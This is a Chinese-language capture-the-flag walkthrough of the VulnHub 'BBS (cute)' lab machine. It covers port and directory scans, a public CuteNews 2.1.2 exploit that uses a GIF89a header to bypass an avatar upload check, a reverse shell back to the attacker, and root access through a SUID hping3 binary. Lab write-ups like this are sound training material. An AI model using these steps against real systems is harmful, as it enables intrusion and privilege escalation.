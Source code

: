 # BBS (cute): 1.0.2

2024-5-19 https://www.vulnhub.com/entry/bbs-cute-101,567/

difficulty: Easy->Intermediate

## IP

192.168.5.22

## Scan

Open Port -> 22,80,88,110,995

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 04d06ec4ba4a315a6fb3eeb81bed5ab7 (RSA)
|   256 24b3df010bcac2ab2ee949b058086afa (ECDSA)
|_  256 6ac4356a7a1e7e51855b815c7c744984 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
88/tcp  open  http     nginx 1.14.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.14.2
110/tcp open  pop3     Courier pop3d
|_pop3-capabilities: IMPLEMENTATION(Courier Mail Server) UTF8(USER) TOP UIDL USER LOGIN-DELAY(10) PIPELINING STLS
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
|_ssl-date: TLS randomness does not represent time
995/tcp open  ssl/pop3 Courier pop3d
|_pop3-capabilities: IMPLEMENTATION(Courier Mail Server) TOP UTF8(USER) USER UIDL PIPELINING LOGIN-DELAY(10)
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
|_ssl-date: TLS randomness does not represent time
```

有 2 个 web 服务，也有 pop3 邮件服务，但是我们没有邮件服务的账号和密码，进入不到 pop3，只有先看看 web 服务上有什么信息了。

web 目录扫描，88 端口的 nginx 上，没有目录暴露出来。

80 对应的 apache 上有一些页面：

```
http://192.168.5.22/docs                 (Status: 301) [Size: 311] [--> http://192.168.5.22/docs/]
http://192.168.5.22/index.html           (Status: 200) [Size: 10701]
http://192.168.5.22/uploads              (Status: 301) [Size: 314] [--> http://192.168.5.22/uploads/]
http://192.168.5.22/search.php           (Status: 200) [Size: 5246]
http://192.168.5.22/print.php            (Status: 200) [Size: 28]
http://192.168.5.22/rss.php              (Status: 200) [Size: 105]
http://192.168.5.22/index.php            (Status: 200) [Size: 6175]
http://192.168.5.22/skins                (Status: 301) [Size: 312] [--> http://192.168.5.22/skins/]
http://192.168.5.22/core                 (Status: 301) [Size: 311] [--> http://192.168.5.22/core/]
http://192.168.5.22/manual               (Status: 301) [Size: 313] [--> http://192.168.5.22/manual/]
http://192.168.5.22/popup.php            (Status: 200) [Size: 28]
http://192.168.5.22/captcha.php          (Status: 200) [Size: 94]
http://192.168.5.22/LICENSE.txt          (Status: 200) [Size: 3119]
http://192.168.5.22/example.php          (Status: 200) [Size: 9522]
http://192.168.5.22/libs                 (Status: 301) [Size: 311] [--> http://192.168.5.22/libs/]
http://192.168.5.22/snippet.php          (Status: 200) [Size: 0]
http://192.168.5.22/show_news.php        (Status: 200) [Size: 2987]
http://192.168.5.22/cdata                (Status: 301) [Size: 312] [--> http://192.168.5.22/cdata/]
http://192.168.5.22/show_archives.php    (Status: 200) [Size: 0]
```

http://192.168.5.22/index.php 发现了一个登录页面，页面底部看到 CMS 的版本为 Powered by CuteNews 2.1.2

经过 searchsploit 找到了一个对应版本的 exp https://www.exploit-db.com/exploits/48800 ，下载到 kali 进行尝试利用。

http://192.168.5.22/index.php?register 这个页面是注册页面，注册一个 test 用户，http://192.168.5.22/captcha.php访问这个注册码，然后填进去。

注册用户凭据 test:test ，然后登陆，在http://192.168.5.22/index.php?mod=main页面修改头像，如果直接上传会通不过验证提示图片错误，根据漏洞描述，后台验证了文件头，这里我们用BP进行抓包拦截，在file头部加上GIF89a ，来绕过后台的验证限制。

如果是使用的 https://www.exploit-db.com/exploits/48800 中的 exp，需要将 python 代码中的 /CuteNews 全部删除，因为这个靶场的 web 根目录就是在/var/www/html，没有在 CuteNews 目录中。

右键点击头像，复制链接，找到了图片的地址，http://cute.calipendula/uploads/avatar_test_8888.php

在 kali 上监听 8888 端口，然后访问上面这个网址 curl http://192.168.5.22/uploads/avatar_test_8888.php ，就得到了反弹的 shell。

进行系统枚举，sudo -l :

```
(root) NOPASSWD: /usr/sbin/hping3 --icmp
```

但是在使用 sudo hping3 时，还是提示输入密码。

查找 suid，发现 /usr/sbin/hping3 也是 suid 程序，所以直接利用， 进行提权：

```
www-data@cute:/var/www/html$ /usr/sbin/hping3
hping3> id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
hping3> cd /root
hping3> ls
localweb  root.txt
hping3> cat root.txt
0b18032c2d06d9e738ede9bc24795ff2
```
